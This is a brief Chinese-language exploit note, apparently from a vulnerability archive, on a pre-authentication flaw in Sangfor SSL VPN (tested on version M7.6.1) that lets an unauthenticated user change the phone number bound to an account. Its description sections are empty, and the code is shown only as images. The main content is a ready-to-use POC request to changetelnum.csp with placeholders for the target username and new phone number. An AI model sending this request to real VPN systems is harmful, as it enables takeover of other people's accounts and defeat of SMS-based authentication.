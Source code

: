 深信服 SSL VPN - Pre Auth 修改绑定手机
======================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

老版本(M7.6.1)代码放上，看不懂的直接看 POC
吧；新版本的没绕成功还在审，所以不确定是不是这个

![1.png](resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId24.png)

![2.png](resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId25.png)

![3.png](resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId26.png)

### POC

    https://www.0-sec.org/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

参考链接
--------

> https://blog.sari3l.com/
